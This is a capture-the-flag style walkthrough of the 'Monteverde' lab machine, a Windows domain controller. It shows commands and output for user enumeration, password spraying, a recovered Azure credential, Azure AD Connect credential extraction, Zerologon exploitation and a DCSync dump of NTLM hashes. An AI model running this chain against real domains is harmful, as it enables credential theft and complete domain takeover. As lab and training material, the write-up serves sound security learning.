

# Monteverde
## Host file setup

```python
sudo nxc smb 10.129.35.54 --generate-hosts-file /etc/hosts  
[sudo] password for kali: 
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration

### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.35.54                                                                  
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-18 18:18 +0100
Nmap scan report for 10.129.35.54
Host is up (0.013s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49696/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.27 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT monteverde.megabank.local
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-18 18:21 +0100
Nmap scan report for monteverde.megabank.local (10.129.35.54)
Host is up (0.087s latency).
rDNS record for 10.129.35.54: MONTEVERDE.MEGABANK.LOCAL

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-18 17:21:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

### Null authentication

#### Users
```python
nxc smb monteverde.megabank.local -u '' -p '' --users-export users.txt
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.129.35.54    445    MONTEVERDE       -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.35.54    445    MONTEVERDE       Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.35.54    445    MONTEVERDE       AAD_987d7f2f57d2              2020-01-02 22:53:24 0       Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB         10.129.35.54    445    MONTEVERDE       mhope                         2020-01-02 23:40:05 0        
SMB         10.129.35.54    445    MONTEVERDE       SABatchJobs                   2020-01-03 12:48:46 0        
SMB         10.129.35.54    445    MONTEVERDE       svc-ata                       2020-01-03 12:58:31 0        
SMB         10.129.35.54    445    MONTEVERDE       svc-bexec                     2020-01-03 12:59:55 0        
SMB         10.129.35.54    445    MONTEVERDE       svc-netapp                    2020-01-03 13:01:42 0        
SMB         10.129.35.54    445    MONTEVERDE       dgalanos                      2020-01-03 13:06:10 0        
SMB         10.129.35.54    445    MONTEVERDE       roleary                       2020-01-03 13:08:05 0        
SMB         10.129.35.54    445    MONTEVERDE       smorgan                       2020-01-03 13:09:21 0        
SMB         10.129.35.54    445    MONTEVERDE       [*] Enumerated 10 local users: MEGABANK
SMB         10.129.35.54    445    MONTEVERDE       [*] Writing 10 local users to users.txt
```

I have dumped all the user to a file using null authentication, but im not able to use null auth to access shares!

Also the guest account is disabled!

AS-REP roasting gave me no results!

## Password spray leads to user compromise

There is no lockout set on this domain! So i can perform some password spraying

```python
nxc smb monteverde.megabank.local -u users.txt -p users.txt --continue-on-success
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:Guest STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:mhope STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 

...[SNIP]...
```
I have compromised the user `SABatchJobs`

## Access as `SABatchJobs`

### Shares

```python
nxc smb monteverde.megabank.local -u SABatchJobs -p 'SABatchJobs' --shares       
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.129.35.54    445    MONTEVERDE       [*] Enumerated shares
SMB         10.129.35.54    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.129.35.54    445    MONTEVERDE       -----           -----------     ------
SMB         10.129.35.54    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.129.35.54    445    MONTEVERDE       azure_uploads   READ            
SMB         10.129.35.54    445    MONTEVERDE       C$                              Default share
SMB         10.129.35.54    445    MONTEVERDE       E$                              Default share
SMB         10.129.35.54    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.129.35.54    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.129.35.54    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.129.35.54    445    MONTEVERDE       users$          READ
```
The `azure_uploads` share is empty

#### `users$` share
```python
smbclient //monteverde.megabank.local/users$ -U 'SABatchJobs'%'SABatchJobs'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 13:12:48 2020
  ..                                  D        0  Fri Jan  3 13:12:48 2020
  dgalanos                            D        0  Fri Jan  3 13:12:30 2020
  mhope                               D        0  Fri Jan  3 13:41:18 2020
  roleary                             D        0  Fri Jan  3 13:10:30 2020
  smorgan                             D        0  Fri Jan  3 13:10:24 2020

		31999 blocks of size 4096. 28979 blocks available
smb: \>
```
3 of the directories were empty but `mhope` had a azure.xml file in here dir

```python
cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
Looks like ive found a password!

```python
4n0therD4y@n0th3r$
```
I can spray this password against all the users!

## Compromising `mhope`

```python
nxc smb monteverde.megabank.local -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.35.54    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
```
I have compromised the user `mhope`

```python
nxc winrm monteverde.megabank.local -u mhope -p '4n0therD4y@n0th3r$'         
WINRM       10.129.35.54    5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) 
WINRM       10.129.35.54    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```
This user has access over WINRM 

This user has no extra access on SMB

## Bloodhound 

```python
*Evil-WinRM* PS C:\Users\mhope\Documents> upload SharpHound.exe
                                        
Info: Uploading /home/kali/htb/Monteverde/SharpHound.exe to C:\Users\mhope\Documents\SharpHound.exe
                                        
Data: 1802240 bytes of 1802240 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\mhope\Documents> dir


    Directory: C:\Users\mhope\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/18/2026  11:22 AM        1351680 SharpHound.exe


*Evil-WinRM* PS C:\Users\mhope\Documents> .\SharpHound.exe -c All
```
Ill upload sharphound and grab the bloodhound data



This user is apart of the azure admins group


## Domain admin

https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor/blob/main/decrypt.ps1

After searching the file system more i see something interesting in the program files

```python
*Evil-WinRM* PS C:\Users\mhope\Documents> dir ../../../'Program Files'


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   9:36 PM                Common Files
d-----         1/2/2020   2:46 PM                internet explorer
d-----         1/2/2020   2:38 PM                Microsoft Analysis Services
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync

...[SNIP]...
```
I see that Azure AD Connect is installed, from past experience i was aware of this attack path!

```python
*Evil-WinRM* PS C:\Users\mhope\Documents> .\azure-creds.ps1
Attempting connection: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync;Integrated Security=True
Error connecting to SQL database. Trying next...
Exception Message: A network-related or instance-specific error occurred while establishing a connection to SQL Server. The server was not found or was not accessible. Verify that the instance name is correct and that SQL Server is configured to allow remote connections. (provider: SQL Network Interfaces, error: 52 - Unable to locate a Local Database Runtime installation. Verify that SQL Server Express is properly installed and that the Local Database Runtime feature is enabled.)
Attempting connection: Data Source=localhost;Initial Catalog=ADSync;Integrated Security=True
Connection successful!
Loading mcrypt.dll from: C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
*Evil-WinRM* PS C:\Users\mhope\Documents>
```
Using the tool from github i found listed earlier i can dump the credentials of the administrator!

```python
nxc smb monteverde.megabank.local -u Administrator -p 'd0m@in4dminyeah!'
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (Pwn3d!)
```

```python
nxc smb monteverde.megabank.local -u Administrator -p 'd0m@in4dminyeah!' -X 'whoami'
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (Pwn3d!)
SMB         10.129.35.54    445    MONTEVERDE       [+] Executed command via wmiexec
SMB         10.129.35.54    445    MONTEVERDE       megabank\administrator
```
I am now Domain Admin

```python
evil-winrm -i monteverde.megabank.local -u administrator -p 'd0m@in4dminyeah!'  
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b905cdb******************
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Domain Admin!

However, from the start i noticed an out of date windows version so this is likely vulnerable to zerologon since its server 2019

## Domain Admin via ZeroLogon (Unintended)

```python
nxc smb monteverde.megabank.local -u SABatchJobs -p 'SABatchJobs' -M zerologon
SMB         10.129.35.54    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.35.54    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
ZEROLOGON   10.129.35.54    445    MONTEVERDE       VULNERABLE
ZEROLOGON   10.129.35.54    445    MONTEVERDE       Next step: https://github.com/dirkjanm/CVE-2020-1472
```
I was right!

```python
python3 cve-2020-1472-exploit.py MONTEVERDE 10.129.35.54
Performing authentication attempts...
=======================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```
Ill go to the github repo and clone the repo, and then run the exploit!

```python
impacket-secretsdump monteverde\$@monteverde.megabank.local -no-pass
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:100a42db8caea588a626d3a9378cd7ea:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3480c0ed5001f14fa7a49fdf016043ff:::
AAD_987d7f2f57d2:1104:aad3b435b51404eeaad3b435b51404ee:599716220acac74a2d9049230d3a8b06:::
MEGABANK.LOCAL\mhope:1601:aad3b435b51404eeaad3b435b51404ee:f875f9a71efc6b0ee93dd906aedbc8b6:::
MEGABANK.LOCAL\SABatchJobs:2602:aad3b435b51404eeaad3b435b51404ee:fd980edb4732d8175a52a9b5e1520bc1:::
MEGABANK.LOCAL\svc-ata:2603:aad3b435b51404eeaad3b435b51404ee:d192ea098c69b7d26c50808a5ac75bea:::
MEGABANK.LOCAL\svc-bexec:2604:aad3b435b51404eeaad3b435b51404ee:2e4de9439cfd99f861dec8fc460c47e3:::
MEGABANK.LOCAL\svc-netapp:2605:aad3b435b51404eeaad3b435b51404ee:6bd17d9707c3da465b96cdf0e1a3a4d6:::
MEGABANK.LOCAL\dgalanos:2613:aad3b435b51404eeaad3b435b51404ee:7a695f4cc64a302d8e53da58f0885736:::
MEGABANK.LOCAL\roleary:2614:aad3b435b51404eeaad3b435b51404ee:cb3fa0132c099c5b29c30ef128e90ad8:::
MEGABANK.LOCAL\smorgan:2615:aad3b435b51404eeaad3b435b51404ee:3a2b291c4291a1063a4b32e1770e5388:::
MONTEVERDE$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


...[SNIP]...
```

I now have dumped all the hashes from the domain via a DCSync

```python
evil-winrm -i monteverde.megabank.local -u administrator -H '100a42db8caea588a626d3a9378cd7ea'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
And once again i am able to get access as the Administrator!
